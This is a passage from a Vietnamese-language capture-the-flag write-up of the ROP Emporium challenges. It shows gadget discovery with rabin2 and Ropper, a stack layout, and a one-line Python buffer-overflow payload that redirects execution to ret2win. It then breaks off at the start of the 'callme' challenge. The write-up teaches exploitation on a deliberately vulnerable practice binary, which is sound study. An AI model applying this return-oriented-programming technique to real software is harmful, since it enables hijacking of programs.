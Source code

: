 Tiến hành lấy các gadget cần thiết

```text-plain
$ rabin2 -s ret2win
[Symbols]
nth paddr      vaddr      bind   type   size lib name
―――――――――――――――――――――――――――――――――――――――――――――――――――――
...
36  0x00000756 0x00400756 LOCAL  FUNC   27       ret2win
...

$ python3 Ropper.py -f ret2win
...
0x000000000040053e: ret;
```

Ta sẽ build stack như sau:

```text-plain
  [A*8  ]
  [.....]
  [A*8  ] -> 40*A
  [0x40053e] -> ret;
  [0x400756] -> ret2win();
```

Truyền payload vào binary

```text-plain
python3 -c "import sys; sys.stdout.buffer.write(b'A'*40 + b'\x3e\x05\x40\x00' + b'\x00'*4  + b'\x56\x07\x40\x00' + b'\x00'*4)" | ./ret2win
```

## Callme

Challenge 3 sẽ hướng dẫn gọi 3 hàm liên tiếp theo thứ tự, chỉ cần gọi đúng thứ tự thì sẽ in ra flag

Reverse bằng Ghidra ta sẽ thấy 3 hàm lần lượt là callme_one, callme_two, callme_three

![](images/Callme/image.png)
